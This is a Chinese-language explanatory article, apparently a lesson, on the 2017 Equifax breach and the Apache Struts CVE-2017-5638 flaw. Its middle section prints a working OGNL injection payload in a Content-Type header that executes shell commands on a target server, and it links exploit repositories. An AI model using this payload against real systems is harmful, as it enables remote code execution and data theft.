



# Equifax信息泄露始末



相信你一定有所耳闻，9 月份美国知名征信公司 Equifax 出现了大规模数据泄露事件，致使 1.43 亿美国用户及大量的英国和加拿大用户受到影响。今天，我就来跟你聊聊 Equifax 信息泄露始末，并对造成本次事件的原因进行简单的分析。  

## Equifax 信息泄露始末

Equifax 日前确认，黑客利用了其系统中未修复的 Apache Struts 漏洞（CVE-2017-5638，2017 年 3 月 6 日曝光）来发起攻击，导致了最近这次影响恶劣的大规模数据泄露事件。  

作为美国三大信用报告公司中历史最悠久的一家，Equifax 的主营业务是为客户提供美国、加拿大和其他多个国家的公民信用信息。保险公司就是其服务的主要客户之一，涉及生命、汽车、火灾、医疗保险等多个方面。  

此外，Equifax 还提供入职背景调查、保险理赔调查，以及针对企业的信用调查等服务。由于 Equifax 掌握了多个国家公民的信用档案，包括公民的学前和学校经历、婚姻、工作、健康、政治参与等大量隐私信息，所以这次的信息泄露，影响面积很大，而且性质特别恶劣。  

受这次信息泄露影响的美国消费者有 1.43 亿左右，另估计约有 4400 万的英国客户和大量加拿大客户受到影响。事件导致 Equifax 市值瞬间蒸发掉逾 30 亿美元。  

根据《华尔街日报》（The Wall Street Journal）的观察，自 Equifax 在 9 月 8 日披露黑客进入该公司部分系统以来，全美联邦法院接到的诉讼已经超过百起。针对此次事件，Equifax 首席执行官理查德·史密斯（Richard Smith）表示，公司正在对整体安全操作进行全面彻底的审查。  

事件发生之初，Equifax 在声明中指出，黑客是利用了某个“U.S. website application”中的漏洞获取文件。后经调查，黑客是利用了 Apache Struts 的 CVE-2017-5638 漏洞。  

戏剧性的是，该漏洞于今年 3 月份就已被披露，其危险系数定为最高分 10 分，Apache 随后发布的 Struts 2.3.32 和 2.5.10.1 版本特针对此漏洞进行了修复。而 Equifax 在漏洞公布后的两个月内都没有升级 Struts 版本，导致 5 月份黑客利用这个漏洞进行攻击，泄露其敏感数据。  

事实上，除了 Apache 的漏洞，黑客还使用了一些其他手段绕过 WAF（Web 应用程序防火墙）。有些管理面板居然位于 Shodan 搜索引擎上。更让人大跌眼镜的是，据研究人员分析，Equifax 所谓的“管理面板”都没有采取任何安保措施。安全专家布莱恩·克雷布斯（Brian Krebs）在其博客中爆料，Equifax 的一个管理面板使用的用户名和密码都是“admin”。  

由于管理面板能被随意访问，获取数据库密码就轻而易举了——虽然管理面板会加密数据库密码之类的东西，但是密钥却和管理面板保存在了一起。虽然是如此重要的征信机构，但 Equifax 的安全意识之弱可见一斑。  

据悉，Equifax 某阿根廷员工门户也泄露了 14000 条记录，包括员工凭证和消费者投诉。本次事件发生后，好事者列举了 Equifax 系统中的一系列漏洞，包括一年以前向公司报告的未修补的跨站脚本（XSS）漏洞，更将 Equifax 推向了风口浪尖。  

## Apache Struts 漏洞相关

Apache Struts 是世界上最流行的 Java Web 服务器框架之一，它最初是 Jakarta 项目中的一个子项目，并在 2004 年 3 月成为 Apache 基金会的顶级项目。  

Struts 通过采用 Java Servlet/JSP 技术，实现了基于 Java EE Web 应用的 MVC 设计模式的应用框架，也是当时第一个采用 MVC 模式的 Web 项目开发框架。随着技术的发展和认知的提升，Struts 的设计者意识到 Struts 的一些缺陷，于是有了重新设计的想法。  

2006 年，另外一个 MVC 框架 WebWork 的设计者与 Struts 团队一起开发了新一代的 Struts 框架，它整合了 WebWork 与 Struts 的优点，同时命名为“Struts 2”，原来的 Struts 框架改名为 Struts 1。  

因为两个框架都有强大的用户基础，所以 Struts 2 一发布就迅速流行开来。在 2013 年 4 月，Apache Struts 项目团队发布正式通知，宣告 Struts 1.x 开发框架结束其使命，并表示接下来官方将不会继续提供支持。自此 Apache Struts 1 框架正式退出历史舞台。  

同期，Struts 社区表示他们将专注于推动 Struts 2 框架的发展。从这几年的版本发布情况来看，Struts 2 的迭代速度确实不慢，仅仅在 2017 年就发布了 9 个版本，平均一个月一个。  

但从安全角度来看，Struts 2 可谓是漏洞百出，因为框架的功能基本已经健全，所以这些年 Struts 2 的更新和迭代基本也是围绕漏洞和 Bug 进行修复。仅从官方披露的安全公告中就可以看到，这些年就有 53 个漏洞预警，包括大家熟知的远程代码执行高危漏洞。  

根据网络上一份未被确认的数据显示，中国的 Struts 应用分布在全球范围内排名第一，第二是美国，然后是日本，而中国没有打补丁的 Struts 的数量几乎是其他国家的总和。特别是在浙江、北京、广东、山东、四川等地，涉及教育、金融、互联网、通信等行业。  

所以在今年 7 月，国家信息安全漏洞共享平台还发布过关于做好 Apache Struts 2 高危漏洞管理和应急工作的安全公告，大致意思是希望企业能够加强学习，提高安全认识，同时完善相关流程，协同自律。  

而这次 Equifax 中招的漏洞编号是 CVE-2017-5638，官方披露的信息见下图。简单来说，这是一个 RCE 的远程代码执行漏洞，最初是被安恒信息的 Nike Zheng 发现的，并于 3 月 7 日上报。  



从介绍中可以看出，此次漏洞的原因是 Apache Struts 2 的 Jakarta Multipart parser 插件存在远程代码执行漏洞，攻击者可以在使用该插件上传文件时，修改 HTTP 请求头中的 Content-Type 值来触发漏洞，最后远程执行代码。

说白了，就是在 Content-Type 注入 OGNL 语言，进而执行命令。代码如下（一行 Python 命令就可以执行服务器上的 shell 命令）：

```sh
import requests
requests.get("https://target", headers={"Connection": "close", "Accept": "*/*", "User-Agent": "Mozilla/5.0", "Content-Type": "%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='dir').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"})
```

在 GitHub 上有相关的代码，链接为：https://github.com/mazen160/struts-pwn 或 https://github.com/xsscx/cve-2017-5638

注入点是在 JakartaMultiPartRequest.java 的 buildErrorMessage 函数中，这个函数里的 localizedTextUtil.findText 会执行 OGNL 表达式，从而导致命令执行（注：可以参看 Struts 两个版本的补丁“2.5.10.1 版补丁”“2.3.32 版补丁”），使客户受到影响。

因为默认情况下 Jakarta 是启用的，所以该漏洞的影响范围甚广。当时官方给出的解决方案是尽快升级到不受影响的版本，看来 Equifax 的同学并没有注意到，或者也没有认识到它的严重性。

另外，在 9 月 5 日和 7 日，Struts 官方又接连发布了几个严重级别的安全漏洞公告，分别是 CVE-2017-9804、CVE-2017-9805、CVE-2017-9793 和 CVE-2017-12611。

这里面最容易被利用的当属 CVE-2017-9805，它是由国外安全研究组织 lgtm.com 的安全研究人员发现的又一个远程代码执行漏洞。漏洞原因是 Struts 2 REST 插件使用带有 XStream 程序的 XStream Handler 进行未经任何代码过滤的反序列化操作，所以在反序列化 XML payloads 时就可能导致远程代码执行。



不过在 Apache 软件基金会的项目管理委员会的回应文章中，官方也对事故原因进行了分析和讨论。首先，依然不能确定泄露的源头是 Struts 的漏洞导致的。其次，如果确实是源于 Struts 的漏洞，那么原因“或是 Equifax 服务器未打补丁，使得一些更早期公布的漏洞被攻击者利用，或者是攻击者利用了一个目前尚未被发现的漏洞”。

根据推测，该声明提出黑客所使用的软件漏洞可能就是 CVE-2017-9805 漏洞，该漏洞虽然是在 9 月 4 日才由官方正式公布，但早在 7 月时就有人公布在网络上了，并且这个漏洞的存在已有 9 年。

相信通过今天的分享，你一定对 Equifax 的数据泄露始末及造成原因有了清楚的了解。欢迎把你的收获和想法，分享给我。下节课中，我们将回顾一下互联网时代的其他大规模数据泄露事件，并结合这些事件给出应对方案和技术手段。
